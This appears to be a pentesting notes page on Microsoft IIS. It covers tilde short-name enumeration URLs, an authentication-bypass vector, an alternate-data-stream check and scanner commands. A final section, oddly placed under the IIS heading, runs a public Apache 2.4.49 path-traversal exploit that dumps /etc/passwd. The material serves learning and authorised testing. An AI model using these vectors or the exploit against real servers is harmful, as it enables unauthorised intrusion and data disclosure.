 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# IIS

## 101

**IIS (Internet Information Services)** is a <mark style="background-color:yellow;">web server software made by Microsoft</mark>. It runs on Windows and is used to host websites, web applications, and services. It's commonly used for websites built with `ASP.NET` and other Microsoft technologies.

### Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>C:\inetpub\wwwroot\</code></td></tr><tr><td><strong>Config</strong></td><td><ul><li><code>%windir%\System32\inetsrv\config\applicationHost.config</code></li><li><code>C:\inetpub\wwwroot\web.config</code></li></ul></td></tr><tr><td><strong>Logs</strong></td><td><code>C:\inetpub\logs\LogFiles\</code></td></tr></tbody></table>

## Attacks

### Tilde Flaw

{% hint style="info" %}
The below information is based on [_Microsoft IIS tilde character “\~” Vulnerability/Feature – Short File/Folder Name Disclosure_](https://soroush.me/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) paper.
{% endhint %}

#### Dirbusting

In older versions of Microsoft’s IIS, there's a way to discover hidden files and folders using something called **8.3 short file names**. These are legacy DOS-style names (e.g., `SECRET~1.HTM`) automatically created for files like `AcSecret.html`. By using the tilde character (`~`) in a crafted URL, we can <mark style="background-color:yellow;">enumerate or guess these hidden names</mark>, even if the files are protected or not listed publicly.

When a server uses **short file names**, it maps a long filename like `AcSecret.html` to a short one like `ACSECR~1.HTM`. This behavior can be abused via URLs with wildcards (`*`, `?`) and the tilde `~`. For example:

```bash
http://victim.com/acsecr~1.htm/.aspx
```

If the server responds with a `404 (not found)` instead of a `400 (bad request)`, it means the file exists — we've guessed part of a real filename! We can refine the guess:

1. Use `a*~1*/.aspx` to test if a file starts with `a`
2. Keep adjusting letters (`ab*`, `ac*`, etc.) until the server gives clues

The `.aspx` at the end of the URL is used due to a <mark style="background-color:yellow;">behavioral quirk of IIS</mark> that can be exploited to detect existing 8.3 names via different HTTP responses. <mark style="background-color:yellow;">IIS needs a valid extension at the end to route the request correctly</mark>. If the URL ends in something non-executable like `.htm` or no extension, IIS may return a generic response (like a `404` or `403`) instead of a behavior we can differentiate.

Adding `/.aspx` (or `/anything.aspx`) can <mark style="background-color:yellow;">force IIS to treat the path as a route to an</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">`ASP.NET`</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">resource</mark>, and might produce different error codes depending on whether the target file/folder actually exists or not. Let’s say we try:

```
http://victim.com/secretfo~1/
```

If it doesn’t exist will respond with `404 Not Found`, but if it exists might still give `404` or `403` depending on settings. On the other hand, if we try:

```
http://victim.com/secretfo~1/.aspx
```

If the folder exists, IIS may return a `403 (Forbidden)` , where if it doesn’t exist, it may return a `404 (Not Found)`.

#### Bypassing Authentication

Even if a folder is protected with login prompts (like Basic or Windows auth), we can still enumerate files using a trick:

```php
/ProtectedFolder::$Index_Allocation/*~1*/.aspx
```

This vector bypasses the login wall and lets us see what's inside **as long as short names exist**.

#### **Alternate Data Streams**

NTFS[^1], the default file system used by modern versions of Windows, has a feature called **ADS** that can help us check if a file exists based on the HTTP responses:

```bash
/filename.html::$data/~1/.aspx
```

A `404` usually means the file is there, just not accessible directly.

#### Tools

The tilde enumeration can be automated using tools such as the [`shortscan`](https://github.com/bitquark/shortscan):or MSF's `iis_shortname_scanner` module:

{% tabs %}
{% tab title="shortscan" %}
```bash
# Single target
$ shortscan http://example.org/

# File with a list of URLs
$ shortscan @urls.txt
```
{% endtab %}

{% tab title="iis_shortname_scanner" %}
{% code overflow="wrap" %}
```bash
# Initial scan
$ sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; run;"

# Targeted scan
sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; set path /dev/dca66d38fd916317687e1390a420c3fc; run;"
```
{% endcode %}
{% endtab %}
{% endtabs %}

### v2.4.49

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}

[^1]: New Technology File System

